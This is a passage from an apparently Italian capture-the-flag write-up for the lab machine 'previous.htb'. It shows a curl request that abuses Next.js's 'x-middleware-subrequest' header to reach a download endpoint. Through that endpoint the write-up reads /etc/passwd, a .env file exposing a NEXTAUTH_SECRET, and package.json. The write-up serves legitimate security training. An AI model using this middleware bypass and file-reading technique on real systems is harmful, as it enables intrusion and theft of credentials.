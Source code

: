 ```bash
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin

```

L'utente `node` ha accesso alla shell.

```bash

$ curl --path-as-is -i -s -k -X $'GET' -H $'Host: previous.htb' -H $'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -H $'Priority: u=0' $'http://previous.htb/api/download?example=cmd' | tr '\0' ' '

```

> **.env** file contains the environment variables.

`../../.env`

```text

NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a

```

`../../package.json`

```text

{
  "private": true,
  "scripts": {
    "dev": "next dev",
    "build": "next build"
  },
  "dependencies": {
    "@mdx-js/loader": "^3.1.0",
    "@mdx-js/react": "^3.1.0",
    "@next/mdx": "^15.3.0",
    "@tailwindcss/postcss": "^4.1.3",
    "@tailwindcss/typography": "^0.5.16",
    "@types/mdx": "^2.0.13",
    "next": "^15.2.2",
    "next-auth": "^4.24.11",
    "postcss": "^8.5.3",
    "react": "^18.2.0",
    "react-dom": "^18.2.0",
    "tailwindcss": "^4.1.3"
  },
  "devDependencies": {
    "@types/node": "22.14.0",
    "@types/react": "19.1.0",
    "typescript": "5.8.3"
  }
}

```
